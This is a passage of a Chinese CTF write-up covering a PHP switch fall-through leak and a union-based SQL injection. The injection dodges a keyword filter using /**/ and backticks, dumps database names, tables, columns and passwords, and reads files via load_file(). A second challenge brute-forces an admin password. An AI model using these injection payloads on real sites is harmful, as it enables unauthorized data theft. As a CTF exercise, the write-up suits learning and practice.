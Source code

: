 case穿透，当我们传参`c=3`时，由于`case 3`没有加上break，会一直往下case，

这样就会执行：`echo "$url";`

![image-20230411144644805](https://raw.githubusercontent.com/leekosss/photoBed/master/202304111446842.png)



访问该文件，在源码中发现：

```php
	if(preg_match('/information_schema\.tables|information_schema\.columns|linestring| |polygon/is', $_GET['query'])){
		die('@A@');
	}
```

看起来是sql注入，但是过滤了这些。

我们可以使用反引号 ` 绕过，MySQL中反引号一般用于保留字



查数据库：

```sql
?query=-1/**/union/**/select/**/database()
```

查表：

```sql
?query=-1/**/union/**/select/**/group_concat(table_name)/**/from/**/information_schema.`tables`/**/where/**/table_schema='web'#
```

查字段：

```sql
?query=-1/**/union/**/select/**/group_concat(column_name)/**/from/**/information_schema.`columns`/**/where/**/table_name='content'#
```

查数据：

```sql
?query=-1/**/union/**/select/**/group_concat(password)/**/from/**/content#
```

![image-20230411145822586](https://raw.githubusercontent.com/leekosss/photoBed/master/202304111458646.png)



提示secret有密码，由于前面有一个 `secret.php` ，所以我们使用 `load_file()`读取文件内容：

![image-20230411150013705](https://raw.githubusercontent.com/leekosss/photoBed/master/202304111500760.png)

读取：`/real_flag_is_here`

![image-20230411150036333](https://raw.githubusercontent.com/leekosss/photoBed/master/202304111500392.png)









### 萌新专属红包题            

也是一个登录页面，盲猜账号：admin，密码我们使用bp爆破

最终爆破得到，密码：admin888

![image-20230410232501070](https://raw.githubusercontent.com/leekosss/photoBed/master/202304102325173.png)

登录时抓包，base64解密得到flag

